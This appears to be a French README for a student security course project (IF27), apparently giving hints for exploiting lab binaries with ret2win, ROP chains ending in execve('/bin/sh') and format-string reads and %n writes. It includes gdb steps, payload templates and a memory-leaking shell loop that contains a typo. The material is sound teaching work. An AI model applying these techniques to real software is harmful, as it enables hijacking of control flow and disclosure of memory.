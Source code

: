 # IF27
Fichiers et programmes de la présentation de IF27

**Ce document contient les fichiers et programmes pour réaliser les exploitattions vues dans la présentation et le rapport de IF27**

*Installation*
git clone https://github.com/arthubhub/IF27.git ; cd docker ; ./dockerMake.sh



*Aide*

# Ret2win :

Trouver l'offset : 
- gdb ./programme
- disass fonction_vulnerable
- b *[adresse après gets()]
- run < A1A2A3A4 ...
- au breakpoint : info frame -> regarder saved eip et en déduire l'offset
Trouver l'adresse de win
- disass win -> prendre l'adresse de la première instruction
- echo -ne "OFFSET\xdd\xcc\xbb\xaa" | ./programme -> remplace saved eip par 0xaabbccdd

# ROPchain :
- trouver les gadgets : ROPgadget --binary ./programme | grep "pop ..x .*; ret"
- mettre /bin/sh à une adresse connue :
pop ebx ; ret
ebx = 0xffffa004
pop eax ; ret
eax = 0x0068732f
mov dword ptr [ebx], eax ; ret

## Le cas de execve :
- execve(”/bin/sh”,0,0)
- le numéro du syscall doit etre dans eax
- x86_32
    - eax=0xB
    - ebx=@ de “/bin/sh”
    - ecx=0
    - edx=0
- x86_64
    - rax=59
    - rdi=@ de “/bin/sh”
    - rsi=0
    - rdx=0

# Format string 

## Lire partout

#!/bin/sh
for i in for i in $(seq 1 2000)
do
   echo "%${i}\$s" | ./vuln_format_string | grep "Result of" | strings >> results
done

## Écrire où on veut

Pour finir, la chaine de formatage %n nous permet d’écrire. Elle écrit le nombre de caractères affichés jusque là, mais où?. Elle les écrit dans l’adresse qu’on lui donne, en argument. 
Par exemple : 

- printf(”54321%n”,&i); //écrit 5 dans i
- printf(”ab54321%3$n”,&a,&b,&c); //écrit 7 dans c

Donc ce qu’on peut faire, c’est envoyer une chaine de formatage comme “a1b2%x%x%x…”, compter le nombre de %x jusqu’à atteindre “a1b2”, puis remplacer ce %x par un %n. On écrit alors une valeur à l’adresse “a1b2”. On peut changer la valeur écrite en ajustant le nombre de caractères imprimés en modifiant un %x → %0Nx, par exemple %0134x. Il ne reste plus qu’à remplacer “a1b2” par l’adresse voulue ( \x78\x56\x34\x12 pour l’adresse 12345678 ).

Des options plus avancées sont “a1b2%Ax%B$n”. Cette chaine imprime 4+A dans l’argument numéro B+1.

